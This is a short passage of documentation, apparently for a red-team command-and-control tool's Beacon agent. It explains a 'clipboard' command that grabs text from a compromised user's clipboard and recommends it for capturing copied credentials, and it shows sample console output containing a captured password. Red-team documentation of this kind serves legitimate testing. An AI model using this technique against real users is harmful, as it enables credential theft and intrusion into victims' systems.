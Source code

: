 The `clipboard` command will capture any text from the user's clipboard (it does not capture images or any other types of data).  This can be handy for capturing credentials that are being copy/pasted, which can be especially prevalent when password managers are in use.

This is a one-off command (it does not run as a job) and dumps the content directly to the Beacon console.
```
beacon> clipboard
[*] Tasked beacon to get clipboard contents

Clipboard Data (8 bytes):
Sup3rman
```